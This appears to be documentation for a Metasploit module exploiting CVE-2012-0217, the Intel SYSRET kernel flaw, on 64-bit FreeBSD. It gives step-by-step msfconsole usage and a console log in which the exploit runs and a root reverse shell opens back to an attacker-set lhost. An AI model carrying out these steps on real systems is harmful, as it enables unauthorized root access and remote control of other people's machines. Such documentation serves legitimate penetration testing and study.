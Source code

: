## Description

  This module exploits a vulnerability in the FreeBSD kernel,
  when running on 64-bit Intel processors.

  By design, 64-bit processors following the X86-64 specification will
  trigger a general protection fault (GPF) when executing a SYSRET
  instruction with a non-canonical address in the RCX register.

  However, Intel processors check for a non-canonical address prior to
  dropping privileges, causing a GPF in privileged mode. As a result,
  the current userland RSP stack pointer is restored and executed,
  resulting in privileged code execution.


## Vulnerable Application

  This module has been tested successfully on:

  * FreeBSD 8.3-RELEASE (amd64)
  * FreeBSD 9.0-RELEASE (amd64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/freebsd/local/intel_sysret_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### FreeBSD 9.0-RELEASE

  ```
  msf5 > use exploit/freebsd/local/intel_sysret_priv_esc 
  msf5 exploit(freebsd/local/intel_sysret_priv_esc) > set session 1
  session => 1
  msf5 exploit(freebsd/local/intel_sysret_priv_esc) > set lhost 123.123.123.188
  lhost => 123.123.123.188
  msf5 exploit(freebsd/local/intel_sysret_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 123.123.123.188:4444 
  [+] FreeBSD version 9.0-RELEASE appears vulnerable
  [+] System architecture amd64 is supported
  [+] hw.model: Intel(R) Core(TM) i9-1337 CPU @ 9.99GHz is vulnerable
  [*] Writing '/tmp/.mTaR4rAPd.c' (4781 bytes) ...
  [*] Max line length is 131073
  [*] Writing 4781 bytes in 1 chunks of 17475 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.LBGkIVh' (218 bytes) ...
  [*] Max line length is 131073
  [*] Writing 218 bytes in 1 chunks of 614 bytes (octal-encoded), using printf
  [*] Launching exploit...
  [*] CVE-2012-0217 Intel sysret exploit -- iZsh (izsh at fail0verflow.com)
  [*] 
  [*] [*] Retrieving host information...
  [*]     [+] CPU: GenuineIntel
  [*]     [+] sysname: FreeBSD
  [*]     [+] release: 9.0-RELEASE
  [*]     [+] version: FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC
  [*]     [+] machine: amd64
  [*] [*] Validating target OS and version...
  [*]     [+] Vulnerable :-)
  [*] [*] Resolving kernel addresses...
  [*]     [+] Resolved Xofl to 0xffffffff80b02e70
  [*]     [+] Resolved Xbnd to 0xffffffff80b02ea0
  [*]     [+] Resolved Xill to 0xffffffff80b02ed0
  [*]     [+] Resolved Xdna to 0xffffffff80b02f00
  [*]     [+] Resolved Xpage to 0xffffffff80b03240
  [*]     [+] Resolved Xfpu to 0xffffffff80b02fc0
  [*]     [+] Resolved Xalign to 0xffffffff80b03080
  [*]     [+] Resolved Xmchk to 0xffffffff80b02f60
  [*]     [+] Resolved Xxmm to 0xffffffff80b02ff0
  [*] [*] Setup...
  [*]     [+] Trigger code...
  [*]     [+] Trampoline code...
  [*] [*] Fire in the hole!
  [*] [*] Got root!
  [+] Success! Executing payload...
  [*] Command shell session 2 opened (123.123.123.188:4444 -> 123.123.123.136:61024) at 2018-12-09 10:40:16 -0500
  [+] Deleted /tmp/.mTaR4rAPd.c
  [+] Deleted /tmp/.mTaR4rAPd
  [+] Deleted /tmp/.LBGkIVh

  id
  uid=0(root) gid=0(wheel) groups=0(wheel)
  uname -a
  FreeBSD freebsd-9-0 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
  ```

